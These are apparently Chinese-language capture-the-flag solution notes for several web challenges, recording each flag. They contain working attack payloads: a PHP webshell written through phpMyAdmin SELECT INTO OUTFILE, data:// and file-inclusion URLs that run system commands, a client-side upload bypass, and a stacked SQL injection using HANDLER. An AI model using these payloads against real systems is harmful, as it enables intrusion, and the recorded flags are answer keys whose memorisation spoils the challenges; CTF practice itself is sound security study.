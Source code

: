 * 解法一

  1. disearch扫后台，发现phpmyadmin，没有设置密码，直接登入
  2. 利用select "php一句话木马" into ourfile '/tmp/shell.php'
  3. 冰蝎连接
* 解法二

  1. php类协议被过滤，利用别的协议data://text/plain,php代码（写一个shell文件）
  2. 冰蝎连接
* 解法三

  1. 直接利用hello输出系统命令会被html注释掉，利用文件包含index.php后再次传参就会按照php代码正常解析
  2. http://192.168.100.161:50281/?page=http://127.0.0.1/index.php/?hello=%3C?system(%22ls%22);?%3E
     fl4gisisish3r3.php index.php phpinfo.php
  3. http://61.147.171.105:60418/index.php?page=http://127.0.0.1/index.php/?hello=&lt;?show_source(&#34;fl4gisisish3r3.php&#34;);?&gt;

ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}

### upload1

1. 上传shell被弹窗，禁用js上传成功
2. 冰蝎连接

cyberpeace{096ec4998d48f859aacf4526a55b3049}

### xff_referer

1. 根据提示更改数据包再发包

cyberpeace{9f25d8ef08ec7f6fc8ed44ce771fe9af}

### web2

1. 解密

   ```php
   <?php
       $miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";
       $_o = base64_decode(strrev(str_rot13($miwen)));
       for($_0=0;$_0<strlen($_o);$_0++){

           $_c=substr($_o,$_0,1);
           $__=ord($_c)-1;
           $_c=chr($__);
           $_=$_.$_c;   
       }
       echo strrev($_);
   ?>
   ```

flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}

### supersqli

1. sql注入，尝试'提交，报错为（'''''），左右的第一对单引号是镇长显示错误内容需要括起来的，剩下的三个单引号为报错信息，中间的就是我的输入，构造payload：' union select 1,2,3--+
2. 被正则表达式过滤了，这时候尝试堆叠注入，show databases；，show tables；最后我们需要查1919810931114514表下的内容，通过：
   desc 1919810931114514 from 1919810931114514 查看内容确实有flag字段
3. 由于select被过滤了，可以尝试mysql下的另一种中查询手段，handler

   ';handler 1919810931114514 open; handler 1919810931114514 read first;--+

flag{c168d583ed0d4d7196967b28cbd0b5e9}
